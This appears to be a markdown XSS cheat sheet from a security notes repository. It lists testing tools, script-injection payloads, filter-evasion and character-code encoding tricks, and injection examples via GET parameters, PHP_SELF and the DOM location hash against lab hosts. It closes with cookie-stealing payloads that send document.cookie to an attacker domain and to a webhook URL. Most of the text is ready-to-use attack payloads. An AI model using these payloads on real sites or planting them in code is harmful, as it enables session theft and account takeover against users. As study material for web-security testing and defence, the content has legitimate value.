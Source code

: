 # XSS : Cross Site Scripting

https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet
https://quanyang.github.io/the-abcs-of-xss/

## Tools
    OWASP Zed Attack Proxy

    XSSer

    W3Af

### Templates for Client side detection
List of XSS templates:
https://gist.github.com/jossets/069ec356de6f73e16b88f07c79728565



### Embed JS in HTML

````html
<script>alert(1);</script>
<img src='zzzz' onerror='alert(1)' />
<div onmouseover='alert(1)' />, onmouseout, onmousemove, onclick...
<a href='javascript:alert(1)' /> : Need to click
````


### Avoid simple filters
```html
<sRript>alert(1);</sCript>
<scr<script>ipt>alert(1);</sc</script>ript>
```


### Convert to Ascii code
https://www.browserling.com/tools/text-to-ascii
````
alert(1) => 97,108,101,114,116,40,49,41
<script>eval(String.fromCharCode( 97,108,101,114,116,40,49,41));</script>
````

## How to inject XSS ?

### Get/Post
```
GET http://12.0.0.11/xss/example3.php?name=<scr<script>ipt>alert(1);</sc</script>ript>
```


### PHP : Abusing $_SERVER['PHP_SELF'];
$_SERVER['PHP_SELF'] = URL base request. 
````html
<form method="post" action="<?php echo $_SERVER['PHP_SELF']; ?>">

GET http://12.0.0.11/xss/example8.php/bob"><script>alert(1)</script><
=>
<?php bob"> <script>alert(1)</script> <?>
````

### Abusing DOM
````html
GET http://ptl-bf67ed09-7529df2e.libcurl.so/index.php#bob
<p>Welcome <script>document.write(decodeURIComponent(location.hash.substring(1)));</script></p>
Welcome bob
GET http://ptl-bf67ed09-7529df2e.libcurl.so/index.php#</script>>script>alert(1)</script>
````


## XSS payload : client side


### Steal cookies
````javascript
    (new Image()).src = "http://www.evil-domain.com/steal-cookie?cookie=" + document.cookie;
````
````html
<script>
document.write('<img src="[URL]?c='+document.cookie+'" />');
</script>
````

Send cookies to webhook : https://webhook.site/
Once the browser renders the JavaScript the <img tag should look like:
````<img src="[URL]?c=[COOKIE]"/>````
And it will send the cookies to your website.
Make sure you don't forget to encode the + in the URL (%2b).
````html
<script>document.write('<img 
src="https://webhook.site/83c6be25-52d2-47a3-ba2f-6615b183fdbc?c='%2bdocument.cookie%2b'" />');</script>

````
